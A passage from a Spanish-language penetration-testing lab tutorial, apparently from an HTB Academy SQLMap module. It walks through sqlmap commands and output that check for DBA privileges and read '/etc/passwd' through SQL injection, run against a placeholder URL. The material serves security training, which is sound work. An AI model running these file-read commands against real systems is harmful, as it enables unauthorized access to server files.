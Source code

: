Como podemos ver, si lo probamos en uno de los ejercicios anteriores, obtenemos`current user is DBA: False`, lo que significa que no tenemos acceso DBA. Si intentamos leer un archivo usando SQLMAP, obtendríamos algo como:

Explotación del sistema operativo

```
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved

```

Para probar la explotación del sistema operativo, intentemos un ejercicio en el que tengamos privilegios de DBA, como se ve en las preguntas al final de esta sección:

Explotación del sistema operativo

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --is-dba        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.11#stable}|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/

```

Vemos que esta vez tenemos`current user is DBA: True`, lo que significa que podemos tener el privilegio de leer archivos locales.

---

# **Leyendo archivos locales**

En lugar de inyectar manualmente la línea anterior a través de SQLI, SQLMAP hace que sea relativamente fácil leer archivos locales con el`--file-read`opción:

Explotación del sistema operativo

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
```